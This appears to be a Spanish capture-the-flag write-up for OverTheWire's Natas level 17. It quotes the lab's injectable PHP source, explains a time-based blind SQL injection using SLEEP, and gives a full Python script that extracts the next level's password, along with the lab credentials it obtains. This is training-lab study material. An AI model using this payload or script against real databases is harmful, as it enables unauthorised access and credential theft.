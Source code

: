 # Natas 17

#### URL: http://natas17.natas.labs.overthewire.org
#### Credenciales: natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

Este nivel es inyeccion SQL a ciegas, como uno anterior pero con la particularidad de que no recibimos confirmacion de nuestras consultas:

``` php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

Aqui podemos usar una condicional y concatenarla con una llamada a una funcion que retrase la peticion x segundos, asi las peticiones con un retraso >= x segundos serán respuestas afirmativas. Podemos usar:
`IF (BINARY SUBSTRING(password,1,[extension]) = 'valor',SLEEP(segundos),0)`

``` python
from base64 import b64encode
import string
import requests

URL="http://natas17.natas.labs.overthewire.org/index.php?debug=1"
headers = {"Authorization" : f"Basic {b64encode(b'natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC').decode()}"}

book = string.ascii_letters + string.digits
passwd = ""

def testChar(c):
    global found_char
    payload = {'username':f"natas18\" AND IF(BINARY SUBSTRING(password,1,{1+len(passwd)}) = '{passwd + c}',SLEEP(4),0) -- "}
    x = requests.post(URL,data=payload,headers=headers)
    if x.elapsed.total_seconds() >= 4:
        found_char=c
    print(f"Trying: {payload} --- {x.elapsed}")


for i in range(32):
    found_char = None
    for c in book:
        testChar(c)
        if found_char:
            print(f"Found {found_char} at position {i+1}")
            passwd+=found_char
            break
    if not found_char:
        print("No character was found but your script is filled with determination.")
        break

print(f"Final Password: {passwd}")
```

Ejecutamos este script con `python script.py` y obtenemos 

`natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ`

PD
+ Aqui no se puede usa multiples hilos porque generaria falsos positivos, por lo que el proceso es un poco largo y tedioso.
+ Usé 4 segundos porque debido a la calidad de mi conexión, algunas peticiones con 2 o 3 segundos eran retrasos y se convertian en falsos positivos.


